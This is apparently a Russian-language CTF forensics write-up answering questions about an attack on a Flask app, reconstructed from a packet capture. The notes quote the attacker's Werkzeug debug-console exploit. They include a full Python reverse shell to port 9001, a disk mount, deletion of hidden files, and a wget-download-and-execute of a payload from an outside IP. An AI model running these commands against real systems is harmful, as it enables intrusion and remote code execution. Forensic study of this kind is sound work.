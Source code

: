 

Возможно уязвимое приложение в докере (`172.18.0.3`) на порту `5000` (или `9001`)

# Условие 1
14. Враг врага 2 - 1

Разведка донесла, что APT «Таймырский муксун» недавно провернул изящную операцию против «Таежного кролика». Поговаривают, что в инфраструктуру «Кролика» было внедрено вредоносное ПО, которое успело наделать шума. Теперь наша задача — докопаться до истины. Вперёд, охотники за «кроличьими» секретами!

Необходимые файлы должны быть на вашем оборудовании. К заданию относится образ linux системы.

- 1. Как был получен первичный доступ к системе? (2 балла)

# Ответ 1

### Открытие консоли (пакет 565-566) спустя 11 секунд после открытия главной страницы сайта:

http://10.10.10.3:5000/console?__debugger__=yes&cmd=resource&f=debugger.js

### Реверс шелл (пакет 761) на порт 9001:

http://10.10.10.3:5000/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF

```
"root@7a5a67189bc9:/app# "
```

# Условие 2

15. Враг врага 2 - 2

- 2. С каких IP-адресов поступала полезная нагрузка? (2 балла)

# Ответ 2

Очень много передачи данных с `81.177.221.242` (сервер откуда скачали app)

Атака с `10.10.10.12` через `10.10.10.3` (прокси?)

# Условие 3

16. Враг врага 2 - 3

- 3. Какие механизмы защиты от детектирования применены в вредоносном приложении? (4/8 баллов)

# Ответ 3

```
CUSTOM_write found, patched.\r\nok\r\n
```

Хз что это

# Условие 4

17. Враг врага 2 - 4

- 4. В какое время было начато исполнение вредоносной нагрузки? (13 баллов)

# Ответ 4

Примерно с пакета 812 (Jan 22 22:34:20) (с осмотра):
```
ls /dev
```

Пакет 885
```
mount /dev/sda2 /mnt
cd /mnt/home
cd ioal
```
Пакет 945
```
rm .*
```
```
cd ..
wget http://81.177.221.242:8125/app
chmod +x ./app
./app
```
На что ему приложение сказало (несколько раз) (пакет 1433):
```
CUSTOM_write found, patched.\r\nok\r\n
```
И потом (1535):
```
